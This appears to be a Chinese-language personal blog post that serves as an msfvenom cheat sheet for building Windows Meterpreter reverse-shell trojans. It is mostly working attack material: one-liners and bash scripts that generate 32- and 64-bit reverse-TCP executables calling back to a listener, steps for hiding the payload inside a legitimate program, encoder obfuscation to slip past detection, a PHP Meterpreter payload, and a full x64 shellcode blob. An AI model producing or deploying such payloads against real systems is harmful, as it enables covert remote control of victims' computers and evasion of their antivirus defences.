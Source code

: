 ```yaml
---
layout: post
title: "msfvenom"
description: ""
date: 2023-07-11
categories:
  - Metasploit
  - MSF_未分類
author: ""
tags: ['Metasploit']
---
```




# msfvenom

### 顯示參數
```
msfvenom -l formats

msfvenom -l payloads
```





### 生成木馬(32bits)

```bash



// 生成木馬
msfvenom -p windows/meterpreter_reverse_tcp -f exe -a x86 --platform windows -o ./123.exe lhost=192.168.43.84 lport=4444


```


### 生成木馬(64bits)

```
msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe -a x86 --platform windows -o ./123.exe lhost=192.168.43.84 lport=4444

```




/////////////////////////////////////////////////////////////////////////////////////////////////////////////



###  Bash 創建木馬(32bits)

```bash

#!/bin/bash

ip=192.168.43.84
port=4444
arch=x86
platform=windows
format=exe
payload=windows/meterpreter_reverse_tcp
out=./test.exe

msfvenom -p $payload LHOST=$ip LPORT=$port -f $format -a $arch --platform $platform -o $out

```




###  Bash 創建木馬(64bits)

```bash

#!/bin/bash

ip=192.168.43.84
port=4444
arch=x64
platform=windows
format=exe
payload=windows/x64/meterpreter_reverse_tcp
out=./test.exe

msfvenom -p $payload LHOST=$ip LPORT=$port -f $format -a $arch --platform $platform -o $out

```





////////////////////////////////////////////////////////////////////////////////////////////////////////////



### 綑綁木馬(32bits)

參數 -x 

```bash

msfvenom -p windows/meterpreter_reverse_tcp -f exe  --platform windows -x ./hello.exe -a x86 -o ./123.exe lhost=192.168.43.84 lport=4444

```

我用 dev c++ 生成了一個debug 32 版的 hello.exe 可以 成功


我只寫一個 print hello 它馬上就會關閉，維持運作的應該是 payload 只要關閉 msfconsole 就會失去連接。


版本最好對應一下 綑綁的應用32  就加上 -a x86 
(工作管理員可以看見 處理程序  可以看見是否為 32 位應用 ) 


實測:
預設綁32應用 不加 -a x86 也可以成功




### bash 綑綁木馬(64bits )
```bash
ip=192.168.43.84
port=4444
arch=x64
platform=windows
format=exe
payload=windows/x64/meterpreter_reverse_tcp
out=./123.exe
bind_target=./hello.exe


msfvenom -p $payload LHOST=$ip LPORT=$port -f $format -a $arch --platform $platform -x $bind_target -o $out

```



////////////////////////////////////////////////////////////////////////////////////////////////////////////



### Enconder


```bash
msfvenom -l encoders 



//-e x86/shikata_ga_nai  
//-i 3 encoder三次

msfvenom -p windows/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 3 -f exe -a x86 --platform windows -o ./123.exe lhost=192.168.43.84 lport=4444


//php/base64 混淆
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.43.84 lport=4444  -o /home/kali/Desktop/shit.php -f raw  -e php/base64 

```







### python 格式的shellcode
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.43.84 lport=4444  -f py -v myshellcode -b "0x00"
```

```python
shellcode =  b""
myshellcode += b"\x48\x31\xc9\x48\x81\xe9\xc0\xff\xff\xff\x48"
myshellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xdd\xee\xd7"
myshellcode += b"\xc7\xa5\x4d\x54\x52\x48\x31\x58\x27\x48\x2d"
myshellcode += b"\xf8\xff\xff\xff\xe2\xf4\x21\xa6\x54\x23\x55"
myshellcode += b"\xa5\x98\x52\xdd\xee\x96\x96\xe4\x1d\x06\x1a"
myshellcode += b"\xec\x3c\xb2\x8f\x2e\x1f\x34\x1a\x56\xbc\xcf"
myshellcode += b"\x96\xed\xc6\x06\x72\x8b\xa3\xe6\x0e\xed\xc6"
myshellcode += b"\x26\x02\x95\xe1\x60\x8d\xef\x05\x65\x92\x71"
myshellcode += b"\xd2\xb6\xbb\xa7\x61\x74\x13\x1c\x27\xda\x86"
myshellcode += b"\xa4\x8c\xb6\xbf\x8f\xaf\x86\x8f\x2e\x1f\x74"
myshellcode += b"\xd9\x9f\xd2\x9f\xc6\x75\x2b\xd5\x2a\xc5\xe5"
myshellcode += b"\xd5\xc8\x20\x3f\x54\x52\xdd\x65\x57\x4f\xa5"
myshellcode += b"\x4d\x54\x1a\x58\x2e\xa3\xa0\xed\x4c\x84\x16"
myshellcode += b"\x56\xae\xf7\x97\x2e\x05\x4c\x1b\xdc\x3e\x34"
myshellcode += b"\x91\xed\xb2\x9d\x13\x56\xda\x5f\x8a\x94\x84"
myshellcode += b"\x1c\x53\x0b\xa6\xe6\x07\xe4\x8c\x9d\x5f\x71"
myshellcode += b"\xaf\xd6\x06\x9d\xad\x21\xa3\x91\xed\x9b\xe3"
myshellcode += b"\xad\x08\x6d\x83\xa8\x36\x8f\x83\x2e\x0d\x70"
myshellcode += b"\x1b\xdc\x3e\xb1\x86\x2e\x41\x1c\x16\x56\xae"
myshellcode += b"\xcb\x8e\xa4\x9d\x15\xd9\xd9\x66\x9f\xc6\x75"
myshellcode += b"\x0c\x0c\x13\x85\xb0\x8e\x9d\xe4\x15\x15\x0b"
myshellcode += b"\x9c\xb4\x9f\x44\x49\x6d\x15\x00\x22\x0e\x8f"
myshellcode += b"\x86\xfc\x17\x1c\xd9\xcf\x07\x9c\x38\x5a\xb2"
myshellcode += b"\x09\x1b\x63\x99\xa4\xf5\xfa\x7e\x66\x52\xdd"
myshellcode += b"\xaf\x81\x8e\x2c\xab\x1c\xd3\x31\x4e\xd6\xc7"
myshellcode += b"\xa5\x04\xdd\xb7\x94\x52\xd5\xc7\xb4\x11\x94"
myshellcode += b"\xfa\xf6\xba\x96\x93\xec\xc4\xb0\x1e\x54\x1f"
myshellcode += b"\x96\x7d\xe9\x3a\x72\x55\x22\x3b\x9b\x4e\x4f"
myshellcode += b"\x25\x55\x53\xdd\xee\x8e\x86\x1f\x64\xd4\x39"
myshellcode += b"\xdd\x11\x02\xad\xaf\x0c\x0a\x02\x8d\xa3\xe6"
myshellcode += b"\x0e\xe8\x7c\x94\x1a\x22\x2e\x9f\x4e\x67\x05"
myshellcode += b"\xab\x92\x95\x67\x16\x86\x1f\xa7\x5b\x8d\x3d"
myshellcode += b"\x11\x02\x8f\x2c\x8a\x3e\x42\x9c\xb6\x9b\x4e"
myshellcode += b"\x47\x05\xdd\xab\x9c\x54\x4e\x62\xd1\x2c\xab"
myshellcode += b"\x87\x58\x2e\xa3\xcd\xec\xb2\x9a\x27\x38\x06"
myshellcode += b"\x44\xc7\xa5\x4d\x1c\xd1\x31\xfe\x9f\x4e\x47"
myshellcode += b"\x00\x65\x9b\xb7\xea\x96\x9f\xed\xc4\xad\x13"
myshellcode += b"\x67\xec\x0e\x0f\xfa\xb2\x81\xd1\x25\xee\xa9"
myshellcode += b"\x92\xed\xce\x90\x72\x83\x67\x21\xad\xe5\x0c"
myshellcode += b"\x0d\x3a\xdd\xfe\xd7\xc7\xe4\x15\x1c\xdb\x2f"
myshellcode += b"\xa6\xe6\x0e\xe4\xf7\x0c\xf6\x8e\x0b\x28\x12"
myshellcode += b"\xed\xc4\x97\x1b\x54\x29\x9a\xf6\x6c\x04\xdd"
myshellcode += b"\xa2\x95\x67\x0d\x8f\x2c\xb4\x15\xe8\xdf\x37"
myshellcode += b"\x1f\x98\x5a\x98\xd7\xaa\xdd\x93\xff\x9f\xe4"
myshellcode += b"\x1a\x0d\x3a\xdd\xae\xd7\xc7\xe4\x15\x3e\x52"
myshellcode += b"\x87\xaf\x6d\xcc\x8a\x42\x64\xad\x08\xb9\x8e"
myshellcode += b"\x86\x1f\x38\x3a\x1f\xbc\x11\x02\x8e\x5a\x83"
myshellcode += b"\xbd\x6e\x22\x11\x28\x8f\xa4\x8e\x1c\x7b\x1b"
myshellcode += b"\xa6\x52\x31\xd0\xf9\x15\xad\x3a\xb6\xbd\xc7"
myshellcode += b"\xfc\x04\x93\x90\x2d\x5b\x75\x91\x5a\x98\x54"
myshellcode += b"\x52"
```


Evasion 免殺模塊:
```
show evasion



待續
```